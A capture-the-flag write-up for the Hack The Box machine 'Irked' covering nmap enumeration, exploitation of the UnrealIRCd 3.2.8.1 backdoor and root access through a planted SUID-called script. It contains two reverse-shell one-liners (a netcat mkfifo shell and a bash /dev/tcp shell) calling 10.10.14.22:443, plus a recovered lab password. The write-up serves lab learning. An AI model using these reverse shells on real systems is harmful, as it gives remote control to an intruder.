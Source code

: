 # Irked (`10.10.10.117`)

## Summary

## Enumeration


![](img/2020-10-12-06-02-26.png)

```bash
$ sudo nmap -A -v -p 22,80,111,6697,8067,59054,65534 -Pn -oA allports irked.htb
```

![](img/2020-10-12-06-05-43.png)

`djmardov@irked.htb`

I see that IRC is running. I connect to it with `HexChat`.

![](img/2020-10-17-22-36-18.png)

I see that `UnrealIRC 3.2.8.1` is running. I find an exploit for this version.

![](img/2020-10-17-22-37-16.png)

https://www.exploit-db.com/exploits/13853

![](img/2020-10-17-22-39-08.png)


## Reverse Shell

![](img/2020-10-17-23-11-03.png)

![](img/2020-10-17-23-11-11.png)

`AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.22 443 >/tmp/f`

## Privilege Escalation

![](img/2020-10-17-23-15-18.png)

![](img/2020-10-17-23-51-13.png)

`UPupDOWNdownLRlrBAbaSSss`

Can't download or transfer the image file for some reason.... stole this step from a walkthrough.

User password: `Kab6h+m+bbp2J:HG`

![](img/2020-10-22-19-38-30.png)

I find a non-standard SUID file `/usr/bin/viewuser`. I run it and see the following output.

![](img/2020-10-23-13-52-13.png)

I drop a reverse shell script in the `/tmp/listusers` location and get a reverse shell as `root`.

```bash
#!/bin/bash
bash -i >&/dev/tcp/10.10.14.22/443 0>&1
```

![](img/2020-10-23-13-54-18.png)
